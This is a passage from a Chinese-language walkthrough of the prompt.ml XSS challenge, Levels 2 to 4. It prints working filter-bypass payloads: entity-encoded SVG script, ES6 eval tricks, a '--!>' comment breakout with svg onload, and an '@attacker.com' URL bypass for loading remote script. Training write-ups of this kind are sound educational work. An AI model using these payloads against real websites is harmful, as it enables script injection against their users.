 Chrome下需要script闭合标签，所以上述payload不成功。最短的答案如下(35个字符)

```
<svg><script>prompt&#40;1)</script>

```

未来所有的浏览器支持ES6，还可以使用下述编码：

```
<script>eval.call`${'prompt\x281)'}`</script>

```

或者

```
<script>eval.call`${'prompt\x281)'}`</script>

```

### 背景知识

由于xml编码特性。在SVG向量里面的`<script>`元素（或者其他CDATA元素 ），会先进行xml解析。因此`&#x28`（十六进制）或者`&#40`（十进制）或者`&lpar；`（html实体编码）会被还原成`（`。

Level 3
-------

* * *

过滤了`->`。但是2012已经公布，html5的注释标签不仅可以使用`-->`，还可以使用`--!>`。

### 代码

```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}

```

25个字符通杀三个浏览器如下：

```
--!><svg/onload=prompt(1)

```

Level 4
-------

* * *

这个题目是利用url的特性绕过，浏览器支持这样的url：http://user:password@attacker.com。但是`http://user:password/@attacker.com`是不允许的。由于这里的正则特性和`decodeURIComponent`函数，所以可以使用`%2f`绕过，如下：`http://prompt.ml%2f@attacker.com`。所以域名越短，答案就越短。
